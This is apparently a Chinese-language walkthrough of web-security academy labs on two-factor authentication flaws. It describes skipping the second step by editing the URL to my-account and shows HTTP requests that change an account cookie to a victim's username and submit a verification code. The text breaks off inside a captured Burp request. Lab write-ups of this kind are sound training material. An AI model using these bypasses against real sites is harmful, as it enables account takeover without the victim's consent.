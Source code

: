 实现：

1.首先用wiener和perter进行第一步登录；

2.开始第二步认证，用wiener的邮箱获取校验码，输入校验码，完成

3.完成2步校验后，网页跳转到用户账户页面，url后缀为my-account

4.登出wiener账户

5.用受害者用户名carlos和密码montoya登录

6.开始第二步校验码认证的时候，直接将url改为my-account

7.发现网站可以直接登录到账户中，并没有严格验证第二步校验码是否完成。

####双因素认证逻辑缺陷####
有时候有逻辑的缺陷双因素认证意味着，当一个用户完成第一步登录认证后，网站不会充分检测是否是同一个用户在完成第二步认证。
例如，一个用户采用正常的口令完成第一步认证：

    POST /login-steps/first HTTP/1.1
    Host: vulnerable-website.com
    ...
    username=carlos&password=qwerty

系统赋予该用户一个cookie，用于完成第二步认证：

    HTTP/1.1 200 OK
    Set-Cookie: account=carlos
    
    GET /login-steps/second HTTP/1.1
    Cookie: account=carlos

当提交验证码时，该用户采用这个cookie表明用户是在访问哪个账户：

    POST /login-steps/second HTTP/1.1
    Host: vulnerable-website.com
    Cookie: account=carlos
    ...
    verification-code=123456

在这种情况下，攻击者可以用他自己的口令登录，然后把account的cookie改为任意的用户名，然后提交验证码：

    POST /login-steps/second HTTP/1.1
    Host: vulnerable-website.com
    Cookie: account=victim-user
    ...
    verification-code=123456

攻击者依靠自己的用户名就能够登录任意用户的账户，如果攻击者能够去爆破验证码，那么是非常危险的。攻击者都不需要知道用户的密码。

####lab2双因素认证绕过####
提供用户wiener的用户名和密码peter，要求登录受害者carlos的账户。
打开靶场，进行登录，界面中，第一步输入用户名和密码，成功后跳转到第二步认证，输入邮箱中校验码。

通过burp抓包，第一步用wiener：peter登录

    POST /login HTTP/1.1
    Host: acf71f901f7cc79fc07b5595008900bc.web-security-academy.net
    Cookie: session=SuDIfAE4mtQvTf0ubKgOmU90Ag21ZN0L
    Content-Length: 30
    Cache-Control: max-age=0
    Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Windows"
    Upgrade-Insecure-Requests: 1
    Origin: https://acf71f901f7cc79fc07b5595008900bc.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
